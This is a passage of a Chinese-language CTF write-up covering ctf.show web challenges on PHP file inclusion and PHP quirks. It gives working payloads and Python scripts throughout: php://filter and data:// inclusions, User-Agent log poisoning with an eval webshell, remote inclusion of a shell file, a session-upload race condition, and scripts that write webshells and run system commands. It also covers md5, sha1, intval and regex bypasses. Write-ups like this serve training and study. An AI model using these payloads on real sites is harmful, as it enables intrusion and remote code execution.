> 首先这是一个file关键字的get参数传递，php://是一种协议名称，php://filter/是一种访问本地文件的协议，/read=convert.base64-encode/表示读取的方式是base64编码后，resource=index.php表示目标文件为index.php。
>
> 通过传递这个参数可以得到index.php的源码，下面说说为什么，看到源码中的include函数，这个表示从外部引入php文件并执行，如果执行不成功，就返回文件的源码。
>
> **而include的内容是由用户控制的，所以通过我们传递的file参数，是include（）函数引入了index.php的base64编码格式，因为是base64编码格式，所以执行不成功，返回源码，所以我们得到了源码的base64格式，解码即可。**

所以本题的payload为
`?file=php://filter/read=convert.base64-encode/resource=flag.php`
也可去掉**read**
也可用在bp的**User-Agent**中插入一句话木马发包
然后访问`?file=/var/log/nginx/access.log`，此时一句话木马就插入在该日志文件内并且被执行

以下的很多题都可以用这种方法绕过，就不赘诉了

### web79

```php
<?php
if(isset($_GET['file'])){
    $file = $_GET['file'];
    $file = str_replace("php", "???", $file);
    include($file);
}else{
    highlight_file(__FILE__);
}
```

php被替换成???了，**php://**可以用大小写绕过，但是**flag.php**不行

所以换一种为协议`data://text/plain,`后接php代码可以直接执行
构造payload
`?file=data://text/plain,<?=eval($_POST[1]);?>`然后就简单了

### web80

```php
<?php
if(isset($_GET['file'])){
    $file = $_GET['file'];
    $file = str_replace("php", "???", $file);
    $file = str_replace("data", "???", $file);
    include($file);
}else{
    highlight_file(__FILE__);
}
```

php和data都被过滤了，**data**我试了下大小写绕过，不行

**第一种办法**

**php://input** 可用大小写绕过


一定要用raw方式上传POST数据，直接用hackbar的上传不成功

**第二种方法**

包含自己服务器的txt(php也可以)文件，然后**include**服务器上的该文件，就可以任意命令执行

所以payload为
`?file=http://XXX:XXXX/shell.txt`
shell.txt里的内容为`<?php eval($_POST[1]);?>`
然后POST传数据即可

### web81

```php
<?php
if(isset($_GET['file'])){
    $file = $_GET['file'];
    $file = str_replace("php", "???", $file);
    $file = str_replace("data", "???", $file);
    $file = str_replace(":", "???", $file);
    include($file);
}else{
    highlight_file(__FILE__);
}
```

多过滤了`:`，web80的第二种办法和日志文件包含还是可以用

可手工日志文件包含，也可写个脚本试试

```py
#-- coding:UTF-8 --
# Author:dota_st
# Date:2021/2/20 19:51
# blog: www.wlhhlc.top
import requests

url = "http://58d8bbb1-203f-4fb4-bdcd-ea7a66d94fbc.challenge.ctf.show/" + "?file=/var/log/nginx/access.log"
headers = {
    'User-Agent': 'Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:84.0) Gecko/20100101 Firefox/84.0<?php @eval($_POST[1]);?>'
}
data = {
    '1': 'system("cat fl0g.php");'
}
req = requests.get(url=url, headers=headers)
result = requests.post(url=url, data=data)
print(result.text)
```

运行得到flag

### web82

```php
<?php
if(isset($_GET['file'])){
    $file = $_GET['file'];
    $file = str_replace("php", "???", $file);
    $file = str_replace("data", "???", $file);
    $file = str_replace(":", "???", $file);
    $file = str_replace(".", "???", $file);
    include($file);
}else{
    highlight_file(__FILE__);
}
```

利用条件竞争脚本

```python
#-- coding:UTF-8 --
# Author:dota_st
# Date:2021/2/20 23:51
# blog: www.wlhhlc.top
import io
import requests
import threading
url = 'http://453228ae-28f2-4bb0-b401-83514feae8df.chall.ctf.show:8080/'

def write(session):
    data = {
        'PHP_SESSION_UPLOAD_PROGRESS': '<?php system("tac f*");?>xl'
    }
    while True:
        f = io.BytesIO(b'a' * 1024 * 10)
        response = session.post(url,cookies={'PHPSESSID': 'flag'}, data=data, files={'file': ('xl.txt', f)})
def read(session):
    while True:
        response = session.get(url+'?file=/tmp/sess_flag')
        if 'xl' in response.text:
            print(response.text)
            break
        else:
            print('retry')

if __name__ == '__main__':
    session = requests.session()
    write = threading.Thread(target=write, args=(session,))
    write.daemon = True
    write.start()
    read(session)
```



### web83

同上

### web84

```php
<?php
if(isset($_GET['file'])){
    $file = $_GET['file'];
    $file = str_replace("php", "???", $file);
    $file = str_replace("data", "???", $file);
    $file = str_replace(":", "???", $file);
    $file = str_replace(".", "???", $file);
    system("rm -rf /tmp/*");
    include($file);
}else{
    highlight_file(__FILE__);
}
```

多了个`system("rm -rf /tmp/*");`，但是无所谓，条件竞争不看这的，没用

继续上面脚本

### web85

```php
<?php
if(isset($_GET['file'])){
    $file = $_GET['file'];
    $file = str_replace("php", "???", $file);
    $file = str_replace("data", "???", $file);
    $file = str_replace(":", "???", $file);
    $file = str_replace(".", "???", $file);
    if(file_exists($file)){
        $content = file_get_contents($file);
        if(strpos($content, "<")>0){
            die("error");
        }
        include($file);
    }
    
}else{
    highlight_file(__FILE__);
}
```

加了个匹配，但是无所谓啊，条件竞争不管这些的

### web86

同上

### web87

https://www.leavesongs.com/PENETRATION/php-filter-magic.html

https://xz.aliyun.com/t/8163

```php
<?php
   	if(isset($_GET['file'])){
    $file = $_GET['file'];
    $content = $_POST['content'];
    $file = str_replace("php", "???", $file);
    $file = str_replace("data", "???", $file);
    $file = str_replace(":", "???", $file);
    $file = str_replace(".", "???", $file);
    file_put_contents(urldecode($file), "<?php die('大佬别秀了');?>".$content);

    
}else{
    highlight_file(__FILE__);
}
```

不是条件竞争了

由于在`file_put_contents`的时候用了一下`urldecode`，所以可以通过双层url编码来使用php伪协议

但由于在开头直接加了die，所以要想办法绕过

`?file=php://filter/write=convert.base64-decode/resource=xlccccc.php`

此时可利用php伪协议对文件进行base64解码，而php的base64解码会丢掉不认识的字符

所以现在就剩下`phpdie`，众所周知，base64是**4字节转3字节**，所以补充两个字节，再加上base64处理后的一句话木马就成功写入了

脚本

```python
import requests

url = "http://bff2d363-27c8-4811-b6b5-a95b251dd05d.challenge.ctf.show/"
#经过两次url编码的php://filter/write=convert.base64-decode/resource=xl.php
get_data = r"%2570%2568%2570%253A%252F%252F%2566%2569%256C%2574%2565%2572%252F%2577%2572%2569%2574%2565%253D%2563%256F%256E%2576%2565%2572%2574%252E%2562%2561%2573%2565%2536%2534%252D%2564%2565%2563%256F%2564%2565%252F%2572%2565%2573%256F%2575%2572%2563%2565%253D%2578%256C%252E%2570%2568%2570"
get_url = url + "?file=" + get_data
data = {
    'content': 'nbPD9waHAgQGV2YWwoJF9QT1NUW3Bhc3NdKTs/Pg=='
}
res = requests.post(url=get_url, data=data)
shell_url = url + "xl.php"
test = requests.get(shell_url)
if(test.status_code == 200):
    print("[*]getshell成功")
    shell_data = {
        'pass': 'system("cat fl0g.php");'
    }
    result = requests.post(url=shell_url, data=shell_data)
    print(result.text)
```

### web88

```php
<?php
if(isset($_GET['file'])){
    $file = $_GET['file'];
    if(preg_match("/php|\~|\!|\@|\#|\\$|\%|\^|\&|\*|\(|\)|\-|\_|\+|\=|\./i", $file)){
        die("error");
    }
    include($file);
}else{
    highlight_file(__FILE__);
}
```

直接利用**data伪协议**就好了

```php
?file=data://text/plain;base64,PD9waHAgc3lzdGVtKCd0YWMgZmwwZy5waHAnKTsgPz4
```

### web116

呃呃


### web117

```php
<?php
highlight_file(__FILE__);
error_reporting(0);
function filter($x){
    if(preg_match('/http|https|utf|zlib|data|input|rot13|base64|string|log|sess/i',$x)){
        die('too young too simple sometimes naive!');
    }
}
$file=$_GET['file'];
$contents=$_POST['contents'];
filter($file);
file_put_contents($file, "<?php die();?>".$contents);
```

和web87类似，只不过base64和rot13用不了了，但是还有别的编码可用

继续抄脚本

```python
#-- coding:UTF-8 --
# Author:dota_st
# Date:2021/2/21 12:29
# blog: www.wlhhlc.top
import requests

url = "http://7dcf93ca-c672-413a-915f-ff85f758121f.challenge.ctf.show/"
get_data = "php://filter/convert.iconv.UCS-2LE.UCS-2BE/resource=dotast.php"
get_url = url + "?file=" + get_data
data = {
    'contents': '?<hp pe@av(l_$OPTSd[tosa]t;)>?'
}
res = requests.post(url=get_url, data=data)
shell_url = url + "dotast.php"
test = requests.get(shell_url)
if(test.status_code == 200):
    print("[*]getshell成功")
    shell_data = {
        'dotast': 'system("cat flag.php");'
    }
    result = requests.post(url=shell_url, data=shell_data)
    print(result.text)
```


## php特性

### <font color='orange'>web89-95</font>


#### 89

考察intval的绕过

```
intval() 函数通过使用指定的进制 base 转换（默认是十进制），返回变量 var 的 integer 数值。 intval() 不能用于 object，否则会产生 E_NOTICE 错误并返回 1。
```

由于过滤了数字，所以就可传一个数组，使他返回1来使if成立

sql注入时如果用了invtal

传?id[]=2就应该返回1的页面

#### 90

同样和intval有关

传一个num使它`!===`4476，但其intval转变为十进制int的值`===`4476

所以可用

```
?num=4476a  //intval遇见没处理的字母会默认丢弃
?numd=0x117c  //0x后面跟着的数会当作16进制处理，117c的十进制===4476
```

#### 92

要使它`!==`所以4476a不行了，但0x117c还可以

当然<font color='red blue'>八进制和二进制</font>也可以也可以~

|   进制   | 开头 |
| :------: | :--- |
|  二进制  | 0b   |
|  八进制  | 0    |
|  十进制  | 无   |
| 十六进制 | 0x   |

#### 93

```php
<?php
include("flag.php");
highlight_file(__FILE__);
if(isset($_GET['num'])){
    $num = $_GET['num'];
    if($num==4476){
        die("no no no!");
    }
    if(preg_match("/[a-z]/i", $num)){
        die("no no no!");
    }
    if(intval($num,0)==4476){
        echo $flag;
    }else{
        echo intval($num,0);
    }
}
```

在上题的基础上过滤了字母,那用八进制就好了

4476的八进制为10574

八进制的开头为0，于是构造payload

`http://decae43a-72c3-4090-ba51-8e668d017c1f.challenge.ctf.show/?num=010574`

#### 94

```php
<?php
include("flag.php");
highlight_file(__FILE__);
if(isset($_GET['num'])){
    $num = $_GET['num'];
    if($num==="4476"){
        die("no no no!");
    }
    if(preg_match("/[a-z]/i", $num)){
        die("no no no!");
    }
    if(!strpos($num, "0")){
        die("no no no!");
    }
    if(intval($num,0)===4476){
        echo $flag;
    }
} no no no!
```

**strpos()** 函数查找字符串在另一字符串中第一次出现的位置

```
strpos(string,find,start)
```

| 参数     | 描述                       |
| :------- | :------------------------- |
| *string* | 必需。规定要搜索的字符串。 |
| *find*   | 必需。规定要查找的字符串。 |
| *start*  | 可选。规定在何处开始搜索。 |

返回字符串在另一字符串中第一次出现的位置，如果没有找到字符串则返回 FALSE

**注释**：字符串位置从 0 开始，不是从 1 开始

也就是如果为八进制，会查到第一个为0，则返回<font color='red'>0</font>，!0就是1，如果不存在0，就返回false，!false就是true

所以要存在0但0不能在第一位

我们可以看到第一个为强等于，第一个很容易绕过

下面有两种办法

```c
http://089578e1-7bd4-4a50-bba0-e969ff2885d8.challenge.ctf.show/?num= 010574//在前面加空格，0就在第二位，invtal检测不到空格
http://089578e1-7bd4-4a50-bba0-e969ff2885d8.challenge.ctf.show/?num=4476.0//有0且不在第一位
```

+(或%2b) 空格(%20)都可以

#### 95

```php
<?php
include("flag.php");
highlight_file(__FILE__);
if(isset($_GET['num'])){
    $num = $_GET['num'];
    if($num==4476){
        die("no no no!");
    }
    if(preg_match("/[a-z]|\./i", $num)){
        die("no no no!!");
    }
    if(!strpos($num, "0")){
        die("no no no!!!");
    }
    if(intval($num,0)===4476){
        echo $flag;
    }
}
```

相对于上一题，第一个if为弱等于，所以4476.0就不行

但?num= 010574可以


### <font color='orange'>web91</font>


两个相似的正则的绕过

```php
<?php
show_source(__FILE__);
include('flag.php');
$a=$_GET['cmd'];
if(preg_match('/^php$/im', $a)){
    if(preg_match('/^php$/i', $a)){
        echo 'hacker';
    }
    else{
        echo $flag;
    }
}
else{
    echo 'nonononono';
}
?>
```

`preg_match('/^php$/im', $a)`这部分的i代表大小写，m代表多行匹配

而第二个正则匹配没有m

所以可以用换行符 -->  %0a

即构造payload    `?cmd=%0aphp`   就可绕过


### <font color='orange'>web96</font>


```php
<?php
highlight_file(__FILE__);

if(isset($_GET['u'])){
    if($_GET['u']=='flag.php'){
        die("no no no");
    }else{
        highlight_file($_GET['u']);
    }


}
?>
```

很明显就是要访问flag.php了

下面介绍三种相似的payload

```
http://18c36440-a34b-404b-927e-62a60676f666.challenge.ctf.show/?u=/var/www/html/flag.php  绝对路径
http://18c36440-a34b-404b-927e-62a60676f666.challenge.ctf.show/?u=./flag.php  当前路径
http://18c36440-a34b-404b-927e-62a60676f666.challenge.ctf.show/?u=../../../.././ctfshow../../../var/www/html/flag.php
前面的随意加，最后面满足是绝对路径就行
```

绝对路径可以看报错信息来得知


### <font color='orange'>web97</font>


```php
<?php
include("flag.php");
highlight_file(__FILE__);
if (isset($_POST['a']) and isset($_POST['b'])) {
if ($_POST['a'] != $_POST['b'])
if (md5($_POST['a']) === md5($_POST['b']))
echo $flag;
else
print 'Wrong.';
}
?>
```

md5弱类型绕过

直接传输组就行


### <font color='orange'>web98</font>

```php
<?php
include("flag.php");
$_GET?$_GET=&$_POST:'flag';
$_GET['flag']=='flag'?$_GET=&$_COOKIE:'flag';
$_GET['flag']=='flag'?$_GET=&$_SERVER:'flag';
highlight_file($_GET['HTTP_FLAG']=='flag'?$flag:__FILE__);

?>
```

代码有点绕，但理解了$\_GET和$\_POST就能理解

$_GET相当于一个数组，里面储存了所有以GET方式传过去的值

$_POST同理

`$_GET?$_GET=&$_POST:'flag';`这句的意思就是如果有GET传值，将$\_GET指向$\_POST

接下来两句纯混淆思路，直接看最后一行

`highlight_file($_GET['HTTP_FLAG']=='flag'?$flag:__FILE__);`

如果$_GET['HTTP_FLAG']=='flag'，就输出flag

而$\_GET指向$\_POST，所以POST传一个`HTTP_FLAG=flag` GET随便传个数据就行了


### <font color='orange'>web99</font>


```php
<?php
highlight_file(__FILE__);
$allow = array();
for ($i=36; $i < 0x36d; $i++) { 
    array_push($allow, rand(1,$i));
}
if(isset($_GET['n']) && in_array($_GET['n'], $allow)){
    file_put_contents($_GET['n'], $_POST['content']);
}

?>
```

先查几个函数

<font color='purple'>**in_array()** </font>

函数搜索数组中是否存在指定的值

```c#
in_array(search,array,type)
```

| 参数     | 描述                                                         |
| :------- | :----------------------------------------------------------- |
| *search* | 必需。规定要在数组搜索的值。                                 |
| *array*  | 必需。规定要搜索的数组。                                     |
| *type*   | 可选。如果设置该参数为 true，则检查搜索的数据与数组的值的类型是否相同。 |

**说明**

如果给定的值 *search* 存在于数组 *array* 中则返回 true。如果第三个参数设置为 true，函数只有在元素存在于数组中且数据类型与给定值相同时才返回 true。

如果没有在数组中找到参数，函数返回 false。

注释：如果 *search* 参数是字符串，且 *type* 参数设置为 true，则搜索区分大小写。

<font color='purple'>**array_push** </font>

将一个或多个单元压入数组的末尾（入栈）

<font color='purple'>**file_put_contents** </font>

```csharp
file_put_contents ( string filename, string data [, int flags [, resource context]] )
```

| 参数     | 说明                                                         |
| :------- | :----------------------------------------------------------- |
| filename | 要写入数据的文件名                                           |
| data     | 要写入的数据。类型可以是 string，array（但不能为多维数组），或者是 stream 资源 |
| flags    | 可选，规定如何打开/写入文件。可能的值：1.FILE_USE_INCLUDE_PATH：检查 filename 副本的内置路径2.FILE_APPEND：在文件末尾以追加的方式写入数据  3.LOCK_EX：对文件上锁 |
| context  | 可选，Context是一组选项，可以通过它修改文本属性              |

看懂了函数就可知道其实就是写入一个一句话木马然后找flag就行

赋值里面1-36出现的次数最多，故最有可能被赋进去，n可取1.php

**那为什么1.php能与1相等呢**

因为`in_array()`在没有设置第三个参数时，默认为false，当两个数据类型不同时，会把字符串转为数字

即`1.php`->`1`于是就相等了(经测试，在本地赋值不相等，GET赋值就相等了)


木马写进就easy啦~


### <font color='orange'>web100-web101</font>


#### 100

```php
<?php
highlight_file(__FILE__);
include("ctfshow.php");
//flag in class ctfshow;
$ctfshow = new ctfshow();
$v1=$_GET['v1'];
$v2=$_GET['v2'];
$v3=$_GET['v3'];
$v0=is_numeric($v1) and is_numeric($v2) and is_numeric($v3);
if($v0){
    if(!preg_match("/\;/", $v2)){
        if(preg_match("/\;/", $v3)){
            eval("$v2('ctfshow')$v3");
        }
    }
    
}
?>
```

题目说`flag in class ctfshow;` 所以我们只需打印出这个变量就好了(当然也可以直接tac文件，这里是为了学新函数)

然后你会发现用`echo`和`print`都不行，因为ctfshow是一个结构体，下面了解一个函数

<font color='purple'>**var_dump** </font>

此函数用于打印结构体

下面构造payload

`?v1=1&=var_dump($ctfshow)/*&v3=*/;`

利用/**/过滤`('ctfshow')`并构造闭合

或者

`?v1=1&v2=var_dump($ctfshow)?>&v3=;`

看到这个想法你就会发现，写入任何一句话的命令都可以了

得到的是


```
object(ctfshow)#1 (3) { ["dalaoA"]=> NULL ["dalaoB"]=> NULL ["flag_is_c05662c10x2db6480x2d4d250x2d8c150x2dd7b35d33a01f"]=> NULL } ('ctfshow');
```

将那串长字符串里面的0x2d换成`-`，用`ctfshow{}`包起来就ok了

#### 101

```php
<?php
highlight_file(__FILE__);
include("ctfshow.php");
//flag in class ctfshow;
$ctfshow = new ctfshow();
$v1=$_GET['v1'];
$v2=$_GET['v2'];
$v3=$_GET['v3'];
$v0=is_numeric($v1) and is_numeric($v2) and is_numeric($v3);
if($v0){
    if(!preg_match("/\\\\|\/|\~|\`|\!|\@|\#|\\$|\%|\^|\*|\)|\-|\_|\+|\=|\{|\[|\"|\'|\,|\.|\;|\?|[0-9]/", $v2)){
        if(!preg_match("/\\\\|\/|\~|\`|\!|\@|\#|\\$|\%|\^|\*|\(|\-|\_|\+|\=|\{|\[|\"|\'|\,|\.|\?|[0-9]/", $v3)){
            eval("$v2('ctfshow')$v3");
        }
    }
}
?>
```

与上题类似，但过滤了挺多东西的，`var_dump`和一句话木马都用不了了

由于括号被过滤，很多函数都用不了

所以考虑用上源代码自带的`('ctfshow')`

查下函数，发现

`Reflection`

```
PHP Reflection API是PHP5才有的新功能，它是用来导出或提取出关于类、方法、属性、参数等的详细信息，包括注释。
$class = new ReflectionClass(‘ctfshow’); // 建立 Person这个类的反射类
$instance = $class->newInstanceArgs($args); // 相当于实例化ctfshow类
```

于是构造payload

`?v1=1&v2=echo new Reflectionclass&v3=;`

得到

```
Class [ class ctfshow ] { @@ /var/www/html/ctfshow.php 15-17 - Constants [0] { } - Static properties [0] { } - Static methods [0] { } - Properties [3] { Property [ public $dalaoA ] Property [ public $dalaoB ] Property [ public $flag_1d77656b-3d33-4b7c0x2d8ae1-e69178dbced ] } - Methods [0] { } }
```

flag手动转换一下发现缺一位，手动爆破一下就好(16进制 只有16个数)

1d77656b-3d33-4b7c-8ae1-e69178dbced

1d77656b-3d33-4b7c-8ae1-e69178dbced

1d77656b-3d33-4b7c-8ae1-e69178dbced


### <font color='orange'>web102(不太懂)</font>


```php
<?php
highlight_file(__FILE__);
$v1 = $_POST['v1'];
$v2 = $_GET['v2'];
$v3 = $_GET['v3'];
$v4 = is_numeric($v2) and is_numeric($v3);
if($v4){
    $s = substr($v2,2);
    $str = call_user_func($v1,$s);
    echo $str;
    file_put_contents($v3,$str);
}
else{
    die('hacker');
}


?>
```

payload

```
GET
v2=115044383959474e6864434171594473&v3=php://filter/write=convert.base64-decode/resource=1.php
POST
v1=hex2bin
```

大致思路就是用16进制构造一个base64加密后的二进制字符串

```
$str=PD89YGNhdCAqYDs
base64_decode($str)=<?=`cat *`;
```

然后在`call_user_func`中用hex2bin解密一下

再在`file_put_contents`中用php伪协议的base64解码写入到1.php中

在访问1.php即可

**说明：<?=是php的短标签，是echo()的快捷用法**


### <font color='orange'>web103(不太懂)</font>


```php
<?php
highlight_file(__FILE__);
$v1 = $_POST['v1'];
$v2 = $_GET['v2'];
$v3 = $_GET['v3'];
$v4 = is_numeric($v2) and is_numeric($v3);
if($v4){
    $s = substr($v2,2);
    $str = call_user_func($v1,$s);
    echo $str;
    if(!preg_match("/.*p.*h.*p.*/i",$str)){
        file_put_contents($v3,$str);
    }
    else{
        die('Sorry');
    }
}
else{
    die('hacker');
}

?>
```

过滤了php，不管连着还是没连着，都不能按顺序出现php

但以上题的思路根本不会出现php

所以用上题的payload就好

还是不懂😭


### <font color='orange'>web104-web107</font>


#### 104

```php
<?php
highlight_file(__FILE__);
include("flag.php");

if(isset($_POST['v1']) && isset($_GET['v2'])){
    $v1 = $_POST['v1'];
    $v2 = $_GET['v2'];
    if(sha1($v1)==sha1($v2)){
        echo $flag;
    }
}
?>
```

本题用了sha1但没比较v1与v2的原值

`sha1(string,raw)`

规定十六进制或二进制输出格式：
TRUE - 原始 20 字符二进制格式
FALSE - 默认。40 字符十六进制数

如果有绕过

和md5类似

数组绕过或者0e绕过

| 原值         | 加密后                                   |
| ------------ | ---------------------------------------- |
| 10932435112  | 0e07766915004133176347055865026311692244 |
| aaroZmOk     | 0e66507019969427134894567494305185566735 |
| aaK1STfY     | 0e76658526655756207688271159624026011393 |
| aaO8zKZF     | 0e89257456677279068558073954252716165668 |
| aa3OFF9m     | 0e36977786278517984959260394024281014729 |
| 0e1290633704 | 0e19985187802402577070739524195726831799 |

#### 106

```php
<?php
highlight_file(__FILE__);
include("flag.php");

if(isset($_POST['v1']) && isset($_GET['v2'])){
    $v1 = $_POST['v1'];
    $v2 = $_GET['v2'];
    if(sha1($v1)==sha1($v2) && $v1!=$v2){
        echo $flag;
    }
}
?>
```

数组绕过即可

#### 107

```php
<?php
highlight_file(__FILE__);
error_reporting(0);
include("flag.php");

if(isset($_POST['v1'])){
    $v1 = $_POST['v1'];
    $v3 = $_GET['v3'];
       parse_str($v1,$v2);
       if($v2['flag']==md5($v3)){
           echo $flag;
       }
}
?>
```

**parse_str**在***challenge***中提过

本题payload

GET`?v3=240610708`加密后0e开头，相当于0

POST`v1=flag=0`


### <font color='orange'>web105</font>


```php
<?php
highlight_file(__FILE__);
include('flag.php');
error_reporting(0);
$error='你还想要flag嘛？';
$suces='既然你想要那给你吧！';
foreach($_GET as $key => $value){
    if($key==='error'){
        die("what are you doing?!");
    }
    $$key=$$value;
}foreach($_POST as $key => $value){
    if($value==='flag'){
        die("what are you doing?!");
    }
    $$key=$$value;
}
if(!($_POST['flag']==$flag)){
    die($error);
}
echo "your are good".$flag."\n";
die($suces);
?>
```

因为foreach中出现了

`$$key=$$value;`

考点是变量覆盖，通过把error的值变为flag值来输出flag

因为GET的值不能含error，所以不能直接`?error=flag`

但是GET没有过滤suces

可以先将suces用flag赋值，此时suces里的值为flag

`?suces=flag`

再通过POST将error的值用suces，此时error里的值就为flag

`error=suces`


### <font color='orange'>web108</font>


```php
<?php
highlight_file(__FILE__);
error_reporting(0);
include("flag.php");

if (ereg ("^[a-zA-Z]+$", $_GET['c'])===FALSE)  {
    die('error');

}
//只有36d的人才能看到flag
if(intval(strrev($_GET['c']))==0x36d){
    echo $flag;
}
?>
```

**ereg() 有区分大小写，PHP函数eregi()与大小写无关。
语法: int ereg(string pattern, string string, array [regs]);
返回值: 整数/数组
函数种类: 资料处理
PHP函数ereg()内容说明
本函数以 pattern 的规则来解析比对字符串 string。
比对结果返回的值放在数组参数 regs 之中，regs[0] 内容就是原字符串 string、regs[1] 为第一个合乎规则的字符串、regs[2] 就是第二个合乎规则的字符串，余类推。若省略参数 regs，则只是单纯地比对，找到则返回值为 true.**

也就是说所有值都要符合需要匹配的值才能返回true

所以直接包含数字显然不太可能

<font color='geen'>但是ereg存在%00截断漏洞</font>

所以可以用`?c=a%00778`来得到flag


### <font color='orange'>web109-110</font>

#### 109

```php
<?php
highlight_file(__FILE__);
error_reporting(0);
if(isset($_GET['v1']) && isset($_GET['v2'])){
    $v1 = $_GET['v1'];
    $v2 = $_GET['v2'];

    if(preg_match('/[a-zA-Z]+/', $v1) && preg_match('/[a-zA-Z]+/', $v2)){
            eval("echo new $v1($v2());");
    }

}
?>
```

本题的考点为**Exception 异常处理类**

前面一个**自带的类**(不知道是不是所有自带的类，记住几个就好了吧)里面输入函数命令在**eval**里面会被执行
也就是说，本题输入

```php
?v1=mysqli&v2=phpinfo
or
?v1=Exception&v2=phpinfo
or
?v1=ReflectionClass&v2=phpinfo
or
?v1=ReflectionMethod&v2=phpinfo
```

都可执行出`phpinfo();`
那么就可通过此方法执行**system**方法

`v1=mysqli&v2=system('ls')
?v1=mysql&v2=system('cat fl36dg.txt')`

就可获取flag

***Tips***

在学习本题的过程中得到了许多有趣的知识

- echo在网页中存在**xss**漏洞

- 字符串后面加空格，会把这个整体当作一个函数，如`echo 'phpinfo'();`就会输出phpinfo

- 还有就是对类的认识

  ```php
  <?php
  class ctfshow{
      public $admin='xl';
      public function getName(){
          return $this->admin;
      }
      public function __toString()
      {
          return $this->admin;
      }
  }
  $cf=new ctfshow();
  $cf->admin='xlccccc';
  echo $cf->getName();
  echo $cf;
  ?>
  ```

  加上`__toString`之后才能正常输出`echo $cf;`or`echo new ctfshow();`

#### 110

```php
<?php
highlight_file(__FILE__);
error_reporting(0);
if(isset($_GET['v1']) && isset($_GET['v2'])){
    $v1 = $_GET['v1'];
    $v2 = $_GET['v2'];

    if(preg_match('/\~|\`|\!|\@|\#|\\$|\%|\^|\&|\*|\(|\)|\_|\-|\+|\=|\{|\[|\;|\:|\"|\'|\,|\.|\?|\\\\|\/|[0-9]/', $v1)){
            die("error v1");
    }
    if(preg_match('/\~|\`|\!|\@|\#|\\$|\%|\^|\&|\*|\(|\)|\_|\-|\+|\=|\{|\[|\;|\:|\"|\'|\,|\.|\?|\\\\|\/|[0-9]/', $v2)){
            die("error v2");
    }

    eval("echo new $v1($v2());");

}
?>
```

与上题类似，但是过滤了很多东西，基本上符号都被过滤了，所以上诉方法显然不行了

在php文档中找到

**The FilesystemIterator class**

查看[DirectoryIterator::__toString](https://www.php.net/manual/zh/directoryiterator.tostring.php)():

发现可以利用这种方法返回当前目录

```php
<?php
$dir = new DirectoryIterator(dirname(__FILE__));
foreach ($dir as $fileinfo) {
    echo $fileinfo;
}
?>
```

现在就需要一个`获取当前目录`函数来代替`dirname(__FILE__)`

于是就找到了`getcwd()`获取当前目录
用`?v1=DirectoryIterator&v2=getcwd`构造后只返回了两个..

原因是因为**DirectoryIterator**是**FilesystemIterator**的子函数，返回的是他的下一级(?可能吧)

所以用`?v1=FilesystemIterator&v2=getcwd`返回了fl36dg.txt
(*直接echo只会返回一个文件，但本题正好fl36dg.txt为第一个文件*)

直接访问就可得到flag


### <font color='orange'>web111</font>


```php
<?php
highlight_file(__FILE__);
error_reporting(0);
include("flag.php");

function getFlag(&$v1,&$v2){
    eval("$$v1 = &$$v2;");
    var_dump($$v1);
}


if(isset($_GET['v1']) && isset($_GET['v2'])){
    $v1 = $_GET['v1'];
    $v2 = $_GET['v2'];

    if(preg_match('/\~| |\`|\!|\@|\#|\\$|\%|\^|\&|\*|\(|\)|\_|\-|\+|\=|\{|\[|\;|\:|\"|\'|\,|\.|\?|\\\\|\/|[0-9]|\<|\>/', $v1)){
            die("error v1");
    }
    if(preg_match('/\~| |\`|\!|\@|\#|\\$|\%|\^|\&|\*|\(|\)|\_|\-|\+|\=|\{|\[|\;|\:|\"|\'|\,|\.|\?|\\\\|\/|[0-9]|\<|\>/', $v2)){
            die("error v2");
    }
    
    if(preg_match('/ctfshow/', $v1)){
            getFlag($v1,$v2);
    }
}
?>
```

与*web105*类似，考察变量覆盖

想办法在**v2**中包含有flag.php，然后将**v2**的值赋给**v1**

于是便想到全局变量***GLOBALS***
直接`?v1=ctfshow&v2=GLOBALS`

就可得到flag


### <font color='orange'>web112-web114</font>


#### 112

```php
<?php
highlight_file(__FILE__);
error_reporting(0);
function filter($file){
    if(preg_match('/\.\.\/|http|https|data|input|rot13|base64|string/i',$file)){
        die("hacker!");
    }else{
        return $file;
    }
}
$file=$_GET['file'];
if(! is_file($file)){
    highlight_file(filter($file));
}else{
    echo "hacker!";
}
?>
```

<font color='purple'>**is_file**</font>

判断给定文件名是否为一个正常的文件

```php
<?php
var_dump(is_file('a_file.txt')) . "\n";
var_dump(is_file('/usr/bin/')) . "\n";
var_dump(is_file('php://filter/resource=flag.php'))
?>
//bool(true)
//bool(false)
//bool(false)
```

可以用伪协议绕过

本题就是直接读文件，绕过了几个转码的函数，不转码就好了嘛，直接

```php
php://filter/resource=flag.php
or
php://filter/convert.iconv.UCS-2LE.UCS-2BE/resource=flag.php
php://filter/read=convert.quoted-printable-encode/resource=flag.php
compress.zlib://flag.php
```

当然也有别的绕过方式

#### 113

```php
<?php
highlight_file(__FILE__);
error_reporting(0);
function filter($file){
    if(preg_match('/filter|\.\.\/|http|https|data|data|rot13|base64|string/i',$file)){
        die('hacker!');
    }else{
        return $file;
    }
}
$file=$_GET['file'];
if(! is_file($file)){
    highlight_file(filter($file));
}else{
    echo "hacker!";
}
?>
```

本题就用到了上题说的别的绕过方式

因为过滤了**filter**，所以就考虑别的协议，[php://文档](https://www.php.net/manual/zh/wrappers.php)

以`compress.zlib://flag.php`payload打通了

然后*ctfshow*上提供了一种新payload

`/proc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/p roc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/pro c/self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/ self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/se lf/root/proc/self/root/var/www/html/flag.php`

其原理就是以这种方式骗过了**is_file**

**发现require文件时，在对软链接的操作上存在一些缺陷，似乎并不会进行多次解析获取真实路径。
/proc/self指向当前进程的/proc/pid/
/proc/self/root/是指向/的符号链接
使用伪协议来读取flag,构造payload:**

所以`require_once`或者`require`也可以用这种payload打通

#### 114

```php
<?php
error_reporting(0);
highlight_file(__FILE__);
function filter($file){
    if(preg_match('/compress|root|zip|convert|\.\.\/|http|https|data|data|rot13|base64|string/i',$file)){
        die('hacker!');
    }else{
        return $file;
    }
}
$file=$_GET['file'];
echo "师傅们居然tql都是非预期 哼！";
if(! is_file($file)){
    highlight_file(filter($file));
}else{
    echo "hacker!";
}
```

绷不住了，113的payload被过滤了，112的第一个还能用

`?file=php://filter/resource=flag.php`

**新知识**:`?file=glob://flag.php`返回的是数组，所以**highlight_file**用不了


### <font color='orange'>web115</font>


```php
<?php
include('flag.php');
highlight_file(__FILE__);
error_reporting(0);
function filter($num){
